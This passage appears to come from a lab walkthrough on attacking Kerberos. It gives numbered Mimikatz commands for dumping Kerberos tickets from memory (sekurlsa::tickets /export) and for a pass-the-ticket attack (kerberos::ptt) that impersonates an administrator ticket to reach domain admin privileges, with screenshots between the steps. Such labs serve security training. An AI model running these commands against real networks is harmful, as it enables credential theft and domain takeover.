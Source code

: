 1.) `<span>cd Downloads</span>` - navigate to the directory mimikatz is in

2.) `<span>mimikatz.exe</span>` - run mimikatz

3.) `<span>privilege::debug</span>` - Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

![](https://i.imgur.com/SJQGplV.png)![1728288869169](image/AttackingKerberos/1728288869169.png)

4.) `<span>sekurlsa::tickets /export</span>` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

![](https://i.imgur.com/xC0L5Kf.png)

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.

### Pass the Ticket w/ Mimikatz

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

1.) `<span>kerberos::ptt <ticket></span>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

![](https://i.imgur.com/DwXmm8Z.png)![1728288883636](image/AttackingKerberos/1728288883636.png)

2.) `<span>klist</span>` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

We will not be using mimikatz for the rest of the attack.

![](https://i.imgur.com/GgxDm9k.png)![1728288917855](image/AttackingKerberos/1728288917855.png)
